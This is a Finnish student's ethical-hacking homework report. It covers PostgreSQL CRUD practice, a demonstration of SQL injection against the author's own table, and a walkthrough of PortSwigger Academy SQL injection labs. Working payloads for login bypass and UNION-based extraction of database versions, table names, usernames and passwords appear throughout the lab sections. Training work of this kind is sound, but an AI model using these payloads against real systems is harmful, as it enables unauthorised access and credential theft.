





Testaukset tehty Windows 10 käyttöjärjestelmällä, Version 10.0.19045 Build 19045. Tämän lisäksi käytetty myös Kali Linux versio 2023.3 ajettuna VirtualBox Version 7.0.12 r159484 (Qt5.15.2) kautta,  Prosessorina Intel(R) Core(TM) i7-8700K CPU @ 3.70GHz, 16GB RAM

[https://terokarvinen.com/2023/eettinen-hakkerointi-2023/#h5-injected-sequel](https://terokarvinen.com/2023/eettinen-hakkerointi-2023/#h5-injected-sequel)

#### x) Lue/katso/kuuntele ja tiivistä.

  * Karvinen 2016: [PostgreSQL Install and One Table Database – SQL CRUD tutorial for Ubuntu](https://terokarvinen.com/2016/03/05/postgresql-install-and-one-table-database-sql-crud-tutorial-for-ubuntu/)

    - Ohjeet PostgreSQL-tietokantapalvelimen asennukseen
    - "Kolmen rivin asennus": 

```
$ sudo apt-get update
$ sudo apt-get -y install postgresql
$ sudo systemctl start postgresql # needed in 2023
$ sudo -u postgres createdb $(whoami)
$ sudo -u postgres createuser $(whoami)
    
```
  * 
    - Tietokannan käynnistys `psql`, apua `help`, `\`-takakenomerkki ja kirjaimia ohjelman sisäisiin komentoihin, esim `\h SELECT` antaa apua SELECT-komennon käyttöön
    - Ohjeet taulukon luontiin sekä CRUDiin - Create, Read, Update, Delete
    - PostgreSQL käyttää SQL-komentoja (yllättävää, eikö?)

  * [OWASP 2017: A1:2017-Injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)
    
    - 2017 Yleisin käytetty haavoittuvuus
    - Melkein mitä tahansa datan lähdettä voidaan käyttää hyökkäysvektorina - muuttujat, parametrit, ulkoiset ja sisäiset weppipalvelut. Mahdollisuus lähettää haittakoodia tulkille riittää.
    - Haavoittuvuuksia löytyy etenkin vanhasta koodista. Niitä löytyy helposti koodia tutkimalla. Skannerit ja fuzzerit ovat hyviä työkaluja injektiovektoreiden löytämiseen.
    - Seuraukset voivat olla vakavia: Uhriorganisaatio saattaa menettää kriittistä dataa (joko ulkoisille toimijoille tai kokonaan) tai injektiolla voidaan ottaa uhri valtaan täysin.
    - Estäminen:
     - Validoidaan, filtteröidään ja/tai puhdistetaan (parametritetään) käyttäjien syöttämä data applikaatiotasolla
     - Whitelistaus sallituille merkeille - ei täysin toimiva, monet applikaatiot ja esim. mobiiliappien rajapinnat tarvitsevat erikoismerkkejä

  * PortSwigger Academy: [SQL injection](https://portswigger.net/web-security/sql-injection)
    
    - SQL-injektiot ovat hyökkäysmuoto, jossa hyökkääjä syöttää tietokantaan koodia, joka antaa hyökkääjälle oikeuksia joita normaalilla käytöllä ei saisi
    - Helpoimpia tapoja löytää haavoittuvuus on yksittäinen `'`-hipsukka
    - Logiikkakyselyt kuten 1=1 tai 1=2 antavat arvoksi TRUE tai FALSE, näillä on hyvä kaivella lisätietoa taulukoista
    - Sisältää mainoksen Burpin sisäänrakennetusta haavoittuvuusskannerista, joka saattaa auttaa haavoittuvuuksien löytämisessä
    - Suurin osa injektioista tehdään kohtaan `WHERE` lukiessa taulukon dataa - mutta ei aina
    - Sisältää esimerkkilabroja, joita ratkotaan kohdissa b\)-j\)
    
#### a) CRUD. Tee uusi PostgreSQL-tietokanta ja demonstroi sillä create, read, update, delete (CRUD). Keksi taulujen ja kenttien nimet itse. Taulujen nimet monikossa, kenttien nimet yksikössä, molemmat englanniksi.

Aloitin käyttämällä aiemmin näytettyä "kolmen rivin asennusta" PostgreSQL-ohjelmalle, lähde: [https://terokarvinen.com/2016/03/05/postgresql-install-and-one-table-database-sql-crud-tutorial-for-ubuntu/](https://terokarvinen.com/2016/03/05/postgresql-install-and-one-table-database-sql-crud-tutorial-for-ubuntu/)

```

┌──(susi㉿isopaha)-[~]
└─$ sudo apt-get update

┌──(susi㉿isopaha)-[~]
└─$ sudo apt-get -y install postgresql
      

```

`install`-komennon ajaminen avasi näkymään ilmoituksen siitä, että PostgreSQL:n versio 15 on vanhentunut. Versio 16 on paketinhallinnassa ilmeisesti eri nimellä, mutta uskon tämän vanhentuneen version olevan riittävä seuraavia testauksia varten.


```

┌──(susi㉿isopaha)-[~]
└─$ sudo -u postgres createdb $(whoami)
could not change directory to "/home/susi": Permission denied

┌──(susi㉿isopaha)-[~]
└─$ sudo -u postgres createuser $(whoami)
could not change directory to "/home/susi": Permission denied


```

Kotihakemistosta ajaminen aiheutti kumpaankin komentoon virheilmoituksen. Ilmeisesti noita komentoja kannattaisi ajaa jostain muualta? Kokeilin siitä huolimatta käynnistää tietokannan komennolla `psql`

```

┌──(susi㉿isopaha)-[~]
└─$ psql                       
psql (16.1 (Debian 16.1-1), server 15.3 (Debian 15.3-0+deb12u1))
Type "help" for help.

susi=> 


```

Näyttäisi siltä, että tietokanta toimii ja olen siellä käyttäjälläni. Luodaan esimerkkitietokanta - **C**RUD, Create. Tässä esimerkissä `CREATE TABLE piggies (id SERIAL PRIMARY KEY, name VARCHAR(20), house VARCHAR(20));`

Tässä kohtaa sain ilmoituksen puuttuvista oikeuksista taulun luontiin. Public schemalle ei saa tarvittavia käyttöoikeuksia automaattisesti. Ilmeisesti aiempien komentojen toimimattomuus OLI ongelma, ja ongelma saattaisi liittyä siihen, että Kalissa tulee valmiiksi asennettuna postgresql-16. Tai jokin muu ongelma, siitä huolimatta siirryin toiselle virtuaalikoneelle, jossa on asennettuna Ubuntu 22.04.1 LTS. Sielläkään "kolmen rivin asennus" ei toiminut suorilta (postgresql oli jo asennettu), vaan sain tarvittavat oikeudet seuraavasti [Mohammad Haammoudin ohjeilla](https://medium.com/@mohammedhammoud/postgresql-create-user-create-database-grant-privileges-access-aabb2507c0aa):

Kirjaudu käyttäjälle postgres: `sudo su postgres` -> käynnistä `psql` -> luo tietokanta `CREATE DATABASE test_database;` -> anna käyttäjällesi oikeudet tietokantaan `GRANT ALL PRIVILEGES ON DATABASE "test_database" TO jolliadmin;` -> poistu psql:stä `\q` ja käyttäjältä `exit`

Nyt taulun luonti psql:ssä onnistui:


Loin sinne pari riviä tietoja komennoilla `INSERT INTO piggies(name,house) VALUES ('NrOne','Sticks');`

```

jolliadmin=> INSERT INTO piggies(name,house) VALUES ('NrOne','Sticks');

INSERT 0 1

jolliadmin=> INSERT INTO piggies(name,house) VALUES ('NrTwo','Planks');

INSERT 0 1

jolliadmin=> INSERT INTO piggies(name,house) VALUES ('NrThree','Bricks');

INSERT 0 1

```

Sitten lukeminen, C**R**UD, Read. 

```

jolliadmin=> SELECT * FROM piggies;

 id |  name   | house  

----+---------+--------

  1 | NrOne   | Sticks

  2 | NrTwo   | Planks

  3 | NrThree | Bricks

(3 rows)


```

Seuraava kohta CR**U**Dista demoutui seuraavasti: `UPDATE piggies SET house='Straw' WHERE id=1;` ja `UPDATE piggies SET house='Sticks' WHERE name='NrTwo';` 


Ja vielä CRU**D** Delete:

```

jolliadmin=> DELETE FROM piggies WHERE id=1;

DELETE 1

jolliadmin=> SELECT * FROM piggies;

 id |  name   | house  

----+---------+--------

  3 | NrThree | Bricks

  2 | NrTwo   | Sticks

(2 rows)


jolliadmin=> 

```

#### b) SQLi me. Kuvaile yksinkertainen SQL-injektio, ja demonstroi se omaan tietokantaasi psql-komennolla. Selitä, mikä osa on käyttäjän syötettä ja mikä valmiina ohjelmassa. (Tässä harjoituksessa voit vain kertoa koodista, ei siis tarvitse välttämättä koodata sitä ohjelmaa, joka yhdistää käyttäjän syötteen SQL:n)

Tehdään injektiolla käyttäjä tietokantaan. Hypoteettisessa ohjelmassa olisi valmiina query, joka näyttäisi SELECT:illä tietoa kysytystä käyttäjästä. Koodissa on kuitenkin haavoittuvuus, ja kysely toteutetaan logiikalla

`SELECT * FROM piggies WHERE name='` KÄYTTÄJÄN SYÖTE`';`

Hyökkääjä on saanut tietoonsa yhden käyttäjän nimimerkin sekä jostain syystä taulun nimenkin. Tämä johtunee siitä, että mielikuvitusmaailmassa johon tämä kohta perustuu, sana `piggies` tarkoittaa samaa kuin `users` oikeassa maailmassa. Tai jotain. Joka tapauksessa, hyökkääjä injektoi koodinsa syöttökenttään

`NrTwo'; INSERT INTO piggies(name) VALUES ('Iso Paha Susi'); SELECT * FROM piggies; --`

-- komennon loppupäässä kommentoi ulos kaiken, mitä sen jälkeen tulisi. Ja nyt psql:ssä demottuna:

;

Hyökkääjän koodi siis insertoi sinne oman käyttäjänsä, ja sitten vielä tulosti koko taulun tiedot. Hyökkääjältä olisi tietysti ollut fiksumpaa ensin ottaa kaikki tietueet ylös, jotta hän olisi voinut manipuloida myös 'house'-kolumnia. Harmillisesti hyökkääjällä ei ollut jälkiviisautta suurempaa ennakointikykyä. Id-numero 7 saattanee johtua aiemmista testauksista, joissa hypoteettisen tilanteen luoja unohti laittaa asteriskin ohjelmiston alkuperäiseen `SELECT * FROM`-kyselyyn.

---

##### PortSwigger Labs

#### ~~c) (Alakohta c poistettu, tämänhän ratkoimme jo aiemmin: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data)~~

Käytetty vinkattua [SQL injection cheat sheettia PortSwiggeriltä](https://portswigger.net/web-security/sql-injection) (kohdat d\)-j\))

#### d) [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

```
" This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. "

```

Painoin sivustolla olevaa 'My account' nappia. Avautui kirjautumissivu. Syötin käyttäjänimeksi administrator ja salasanaksi piilosana. Kaappasin liikenteen ZAPilla, ja lisäsin käyttäjänimen perään '-- siinä toivossa, että se kommentoisi salasanan ulos parametreista. Labra läpäisty!


#### e) [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

```
" This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. "

```

Sivustolla näyttäisi olevan aina otsikko, ja sen lisäksi otsikkoa vastaava kuvaus. Varmistetaan tekstiä sisältävien kolumnien määrä syöttämällä kategoria-parametrin perään seuraavasti `filter?category=Corporate+gifts'+UNION+SELECT+'foo','bar'+FROM+dual--`. Kyselyn tuloksena sivuston alalaitaan tuli tekstilaatikko syötteilläni.


Muokataan hyötykuormaksi `/filter?category=Corporate+gifts'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`, ja sivustolle saadaan näkyviin versiotietoja, ja labra on läpäisty:


#### f) [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

```

" This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. "

```

Hyvin samankaltainen kuin edellinen, mutta tällä kertaa versiotietona haetaan MySQL:n ja Microsoftin versiotietoja. Katsotaan cheat sheetista sopiva hyötykuorma, ja sovelletaan samalla periaatteella: `/filter?category=Corporate+gifts'+UNION+SELECT+@@version,+NULL%23` 


#### g) [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

```

" This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. "

```

Taas samannäköinen sivusto, mutta se sisältää tällä kertaa myös 'my account'-osion, josta kirjaudutaan lopuksi sisään. Haavoittuvuus on kategoria-filtterissä, joten aletaan tutkimaan sitä ZAPissa: `/filter?category=Accessories'+UNION+SELECT+table_name,NULL+FROM+all_tables--` hyötykuormalla saatiin paljon erilaisia kategorioita:



```

APP_ROLE_MEMBERSHIP
APP_USERS_AND_ROLES
AUDIT_ACTIONS
DR$NUMBER_SEQUENCE
DR$OBJECT_ATTRIBUTE
DR$POLICY_TAB
DR$THS
DR$THS_PHRASE
DUAL
HELP
HS$_PARALLEL_METADATA
HS_BULKLOAD_VIEW_OBJ
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE
IMPDP_STATS
KU$NOEXP_TAB
KU$_DATAPUMP_MASTER_10_1
KU$_DATAPUMP_MASTER_11_1
KU$_DATAPUMP_MASTER_11_1_0_7
KU$_DATAPUMP_MASTER_11_2
KU$_LIST_FILTER_TEMP
KU$_LIST_FILTER_TEMP_2
NTV2_XML_DATA
ODCI_PMO_ROWIDS$
ODCI_SECOBJ$
ODCI_WARNINGS$
OGIS_GEOMETRY_COLUMNS
OGIS_SPATIAL_REFERENCE_SYSTEMS
OL$
OL$HINTS
OL$NODES
PLAN_TABLE$
PRODUCTS
PSTUBTBL
SDO_COORD_AXES
SDO_COORD_AXIS_NAMES
SDO_COORD_OPS
SDO_COORD_OP_METHODS
SDO_COORD_OP_PARAMS
SDO_COORD_OP_PARAM_USE
SDO_COORD_OP_PARAM_VALS
SDO_COORD_OP_PATHS
SDO_COORD_REF_SYS
SDO_COORD_SYS
SDO_CRS_GEOGRAPHIC_PLUS_HEIGHT
SDO_CS_CONTEXT_INFORMATION
SDO_CS_SRS
SDO_DATUMS
SDO_DATUMS_OLD_SNAPSHOT
SDO_ELLIPSOIDS
SDO_ELLIPSOIDS_OLD_SNAPSHOT
SDO_PREFERRED_OPS_SYSTEM
SDO_PREFERRED_OPS_USER
SDO_PRIME_MERIDIANS
SDO_PROJECTIONS_OLD_SNAPSHOT
SDO_ST_TOLERANCE
SDO_TOPO_DATA$
SDO_TOPO_RELATION_DATA
SDO_TOPO_TRANSACT_DATA
SDO_TXN_IDX_DELETES
SDO_TXN_IDX_EXP_UPD_RGN
SDO_TXN_IDX_INSERTS
SDO_UNITS_OF_MEASURE
SDO_XML_SCHEMAS
SRSNAMESPACE_TABLE
STMT_AUDIT_OPTION_MAP
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
USERS_LMZCUV
WRI$_ADV_ASA_RECO_DATA
WRR$_REPLAY_CALL_FILTER
WWV_FLOW_DUAL100
WWV_FLOW_LOV_TEMP
WWV_FLOW_TEMP_TABLE
XDB$XIDX_IMP_T

```

USERS_LMZCUV kuulostaa lupaavalta taulukolta, katsellaan sen sisältöä: `filter?category=Accessories%27+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name=%27USERS_LMZCUV%27--`

`PASSWORD_CGLKZX` ja `USERNAME_NTZGXE` tulivat esiin kyseisellä hyötykuormalla. Syötetään ne seuraavaan hyötykuormaan: `/filter?category=Accessories'+UNION+SELECT+USERNAME_NTZGXE,+PASSWORD_CGLKZX+FROM+USERS_LMZCUV--`


Bingo! Syötetään saatu salasana kirjautumissivulle:



#### h) [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

```

" This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. "

```

Tähän voisi käyttää e)-kohdan SELECT-kyselyä, mutta emme tiedä tietuiden rajoituksia. Siksi on hyvä käyttää NULLia taulukon pylväiden lukumääriä selvitellessä. `/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL--` tuotti HTTP 500 Internal Server Errorin, mutta yksi NULL lisää ratkaisi labran:



#### i) [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

```

" This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. "

```

Käytetään aiemmin opittua tapaa kysellä tiedetystä taulusta tiedettyjä kolumneja:


Weppiselaimeen saadaan adminin tiedot:


Syötetään ne My Accounttiin, ja labra on läpäisty.

#### j) [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

```

" This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. "

```

`/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL--` kertoi, että kolumneja todella on vain kaksi. 

Kokeilin eri versiotietoja jotta osaisin kohdistaa oikeanlaisen kyselyn, sain tietää sen: `/filter?category=Corporate+gifts'+UNION+SELECT+NULL, version()--` eli PostgreSQL.

Sitten katsotaan cheat sheetista tapa yhdistää kyselyitä, eli "concatenation". Se tapahtuu tuplaputkilla, eli `||' '||` -> `/filter?category=Corporate+gifts%27+UNION+SELECT+NULL,username||%27%20%27||password+FROM+users--`
Yhdistelyssä hipsujen välissä oleva merkki (tapauksessani välilyönti) laittaa haettujen tietojen väliin ko. merkin.





